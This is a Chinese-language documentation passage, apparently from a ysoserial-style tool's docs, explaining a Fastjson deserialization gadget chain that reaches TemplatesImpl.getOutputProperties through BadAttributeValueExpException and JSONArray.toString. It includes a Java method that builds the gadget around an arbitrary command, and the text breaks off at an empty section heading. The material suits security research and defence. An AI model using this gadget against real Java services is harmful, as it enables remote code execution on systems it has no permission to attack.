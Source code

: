 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO, Fastjson]
#slug: About Me
#title: About Me
---
```


# Fastjson

## 0x00 fastjon 触发 getter

fastjson 是一套开源解析库，可以把 Java 对象转化成 JSON 形式来表示，通过 `JSON.parseObject()、JSON.parse()` 反序列化 json 字符串，对 fastjson 漏洞比较熟悉的话就知道反序列化时可以通过 @type 指定类，在反序列化时通过 `JSON.parse()` 触发 setter ，通过 `JSON.parseObject()` 触发 getter、setter 实现反序列化攻击。

`JSON.toJSONString()` 方法在将对象序列化为 json 字符串时，也同样会触发 getter 方法，那么我们很熟悉可以通过 `TemplatesImpl.getOutputProperties()` 实现字节码的任意加载。

## 0x01 组合调用链

在 fastjson 中  `JSONArray` 和 `JSONObject` 对抽象类 JSON 进行了实现，并实现了 `Serializable` 接口，但是很可惜并不存在 readObject() 方法不能作为 kick-off，所以我们还要继续寻找调用了 `toJSONString()` 的方法。而在 `com.alibaba.fastjson.JSON` 正好有一个 `toString()` 方法调用了 `toJSONString()` 。

![image-20230811100802077](attachments/image-20230811100802077.png)

接下来寻找一个 `toString()` 方法来触发最终的 getter ，直接用 `BadAttributeValueExpException` 的 val 字段来触发，所以构造出的 gadget 如下：

```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);

    BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(bd, "val", jsonArray);
    return bd;
}
```

## 0x02 补充 为什么会触发 fastjson 的 getter
